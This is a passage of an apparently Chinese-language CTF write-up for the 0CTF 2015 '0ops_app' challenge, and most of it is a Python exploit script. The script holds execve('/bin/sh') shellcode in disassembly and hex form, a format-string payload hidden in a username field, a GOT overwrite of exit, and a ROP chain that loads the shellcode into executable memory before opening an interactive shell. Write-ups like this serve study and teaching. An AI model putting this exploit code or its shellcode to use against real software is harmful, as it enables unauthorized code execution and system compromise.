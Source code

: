     99                cdq
    52                push rdx
    EB06              jmp short 0xd
    5F                pop rdi
    4831F6            xor rsi,rsi
    0F05              syscall
    E8F5FFFFFF        call qword 0x7
    2F62696E2F7368    "/bin/sh"
    '''
    shellcode2 = '6a3b589952eb065f4831f60f05e8f5ffffff2f62696e2f7368'.decode('hex')
    
    rwx = 0x0304aa8080
    exitGotSandbox = sandboxBase + 0xa4e440
    #write shellcode address to exit@got in sandbox
    write8(exitGotSandbox, rwx+len(shellcode1))
    verify = read8(exitGotSandbox)
    print 'verify: %s' % hex(verify)

    # 0x1363 : pop rdi ; ret
    # 0x1361 : pop rsi ; pop r15 ; ret
    readline = base+0xcb5
    #rop: read shellcode to rwx area
    rop = p64(base+0x1363) + p64(rwx) + p64(base+0x1361) + p64(0x1234) + p64(0) + p64(readline) + p64(rwx)

    pop5ret = base + 0x135b
    username = ("%%%dx%%10$hn--" % (pop5ret & 0xffff)).ljust(16) + p64(retAddr) + rop
    send(username + '\n1234\n')
    conn.recvuntil('--')

    send(shellcode1+shellcode2+'\n')
    
    conn.interactive()
    exit(0)
{% endhighlight %}

`write8`那里直接用了[https://rzhou.org/~ricky/0ctf2015/0ops_app/test.py](https://rzhou.org/~ricky/0ctf2015/0ops_app/test.py)的代码。我之前都是从低位到高位按顺序修改的，但他这样先排一次序再写我觉得很好。
